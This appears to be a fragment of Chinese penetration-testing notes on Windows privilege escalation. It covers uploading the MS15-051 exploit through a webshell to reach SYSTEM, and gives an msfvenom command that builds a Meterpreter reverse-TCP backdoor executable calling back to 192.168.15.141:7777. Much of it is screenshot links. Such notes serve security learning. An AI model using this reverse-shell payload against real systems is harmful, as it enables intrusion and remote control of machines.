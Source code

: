 比如使用MS15-051的EXP

![image-20241014191131825](操作系统提权/image-20241014191131825.png)		

将ms051通过webshell上传上去。

![image-20241014191154526](操作系统提权/image-20241014191154526.png)	

此时提权成system用户。

![image-20241014191219570](操作系统提权/image-20241014191219570.png)	

当然上面是第一种方式，还可以把webshell转移到msf会话上。

```
先创建msf的后门木马，并通过webshell上传。
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f exe -o test.exe
```

![image-20241014191616642](操作系统提权/image-20241014191616642.png)		
